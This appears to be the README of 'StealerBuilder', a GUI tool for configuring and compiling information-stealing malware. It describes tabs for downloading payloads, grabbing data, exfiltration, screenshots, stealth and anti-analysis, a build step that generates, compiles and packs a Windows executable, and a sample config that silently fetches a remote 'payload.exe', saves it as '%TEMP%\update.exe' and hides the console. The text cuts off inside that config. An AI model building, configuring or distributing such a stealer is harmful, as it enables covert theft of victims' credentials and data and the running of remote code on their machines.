 <details><summary><b>🪟 Windows - Visual Studio (Manual Build)</b></summary></details>

<details><summary><b>🪟 Windows - MinGW (Manual Build)</b></summary></details>

## 🚀 Usage

### 1. Launch the Application
```bash
./StealerBuilder  # Linux
StealerBuilder.exe  # Windows
```

### 2. Configure Your Payload

Navigate through the intuitive tabbed interface to configure your payload:

<details><summary><b>📥 Downloader Tab</b></summary></details>

<details><summary><b>🌐 Grabber Tab</b></summary></details>

<details><summary><b>📤 Exfiltration Tab</b></summary></details>

<details><summary><b>📸 Screenshots Tab</b></summary></details>

<details><summary><b>💻 System Info Tab</b></summary></details>

<details><summary><b>🥷 Stealth Tab</b></summary></details>

<details><summary><b>🛡️ Anti-Analysis Tab</b></summary></details>

<details><summary><b>⚙️ Build Options Tab</b></summary></details>

### 3. Build Executable

Click the **"Build Executable"** button. The build process:

1. ✅ Validates configuration settings
2. 🔧 Generates C++ source code with configured features
3. 🔨 Compiles using selected compiler (MinGW/MSVC)
4. 📦 Optionally packs with UPX compression
5. 💾 Outputs final Windows PE executable

### 4. Save/Load Configurations

- **💾 Save Config**: Export settings to JSON file for reuse
- **📂 Load Config**: Import previously saved configuration
- **📋 Example Config**: See configuration examples below

---

## 📝 Configuration Examples

### Example 1: Simple Downloader

```json
{
  "downloader": {
    "url": "https://example.com/payload.exe",
    "savePath": "%TEMP%\\update.exe",
    "execParams": "/silent"
  },
  "stealth": {
    "hideConsole": true,
    "mutex": "MyApp_SingleInstance"
  },
  "buildOptions": {
    "architecture": "x64",
    "obfuscate": true
```